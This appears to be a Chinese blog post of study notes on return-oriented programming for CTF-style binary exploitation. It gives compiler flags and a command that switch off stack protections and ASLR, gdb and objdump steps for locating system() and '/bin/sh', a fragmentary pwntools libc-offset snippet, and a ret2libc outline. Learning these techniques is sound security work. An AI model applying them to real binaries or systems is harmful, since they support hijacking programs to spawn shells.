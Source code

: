```yaml
---
layout: post
title: 一步一步学ROP笔记
slug: note
date: 2018-03-28 14:45
status: publish
author: yuri
tags: 
  - pwn
  - ROP
categories:
  - pwn
excerpt: ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如DEP，ASLR等）。
---
```



# x86 
## 无保护
> * 关掉canary： **-fno-stack-protector** 
> * 关掉NX： **-z execstack** 
> * 关掉PIE： **sudo -s echo 0 > /proc/sys/kernel/randomize_va_space** 

## 绕过NX
gdb下找syste()和"/bin/sh"的地址:
```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"
```
## 绕过NX和PIE
> * 看plt : **objdump -d -j .plt level2**
> * 看got : **objdump -R level2**
> * 查看目标程序调用的so库 : **ldd level2**

用pwntools：
```python
elf = ELF('level2')
plt_write = elf.symbols['write']
got_write = elf.got['write']

libc = ELF('libc.so')
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
```
## 无libc.so
步骤：
> * 泄露__libc_start_main地址
> * 获取libc版本
> * 获取system地址与/bin/sh的地址
> * 再次执行源程序
> * 触发栈溢出执行system(‘/bin/sh’)
